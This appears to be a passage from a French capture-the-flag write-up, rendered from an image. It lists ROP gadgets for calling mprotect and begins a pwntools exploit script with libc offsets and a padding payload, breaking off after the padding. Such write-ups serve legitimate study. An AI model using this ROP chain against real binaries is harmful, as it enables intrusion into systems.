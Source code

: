 > First six arguments are in rdi, rsi, rdx, rcx, r8d, r9d; remaining arguments are on the stack.

`mprotect` prenant trois arguments, il me faut des gadgets (trouvés avec `ROPgadget`) pour remplir chacun des registres. Il me faut aussi un gadget pour sauter sur la stack :

```nasm
; offsets trouvés en local pour les tests
; binary
0x00000000004015e3 : pop rdi ; ret
0x00000000004015e1 : pop rsi ; pop r15 ; ret

; libc
0x0000000000089688 : pop rax ; pop rdx ; pop rbx ; ret
0x0000000000032bf6 : push rsp ; ret
```

Voici mon exploit final :

```python
import sys                                                                                                             
                                                                                                                       
from pwnlib.tubes.remote import remote                                                                                 
from pwnlib.util.packing import p64                                                                                    
                                                                                                                       
# gadgets from binary                                                                                                  
pop_rdi_ret = 0x004015e3                                                                                               
pop_rsi_r15_ret = 0x4015e1                                                                                             
                                                                                                                       
if sys.argv[1] == "local":                                                                                             
    libc_base = 0x7ffff7da6000                                                                                         
    stack_base = 0x7ffffffdd000                                                                                        
    mprotect = libc_base + 0x10d190                                                                                    
    # gadgets from libc                                                                                                
    pop_rax_rdx_rbx_ret = libc_base + 0x89688                                                                          
    push_rsp_ret = libc_base + 0x32bf6                                                                                 
else:                                                                                                                  
    libc_base = 0x7ffff7dee000                                                                                         
    stack_base = 0x7ffffffde000                                                                                        
    mprotect = libc_base + 0xfb070                                                                                     
    # gadgets from libc                                                                                                
    pop_rax_rdx_rbx_ret = libc_base + 0x13a7a5                                                                         
    push_rsp_ret = libc_base + 0x3c4bd                                                                                 
                                                                                                                       
payload = p64(0xdeadbeefdeadbeef) * 131                                                                                
```